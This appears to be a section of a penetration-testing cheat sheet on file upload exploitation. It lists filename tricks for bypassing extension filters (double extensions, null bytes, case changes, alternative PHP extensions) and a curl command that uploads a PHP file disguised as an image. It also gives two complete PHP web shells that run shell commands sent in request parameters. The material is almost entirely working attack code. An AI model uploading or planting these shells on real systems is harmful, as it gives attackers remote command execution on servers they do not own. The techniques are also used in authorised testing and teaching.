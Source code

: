 ## File Upload Exploitation

### File Upload Bypass Techniques
```bash
# Extension bypasses
# Double extension
shell.php.jpg
shell.asp.png

# Null byte (older systems)
shell.php%00.jpg
shell.asp%00.gif

# Case variations
shell.PHP
shell.AsP
shell.pHp

# Alternative extensions
shell.php5
shell.phtml
shell.inc
shell.phar

# Content-Type manipulation
# Upload with image content-type but PHP content
curl -X POST http://<target>/upload.php \
     -F "file=@shell.php;type=image/jpeg"
```

### Web Shell Creation
```php
<?php
// Minimal PHP web shell
if(isset($_GET['c'])) {
    system($_GET['c']);
}
?>
```

```php
<?php
// Advanced PHP web shell with form
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
} else {
    echo '<form method="post"><input type="text" name="cmd" /><input type="submit" value="Execute" /></form>';
}
?>
```
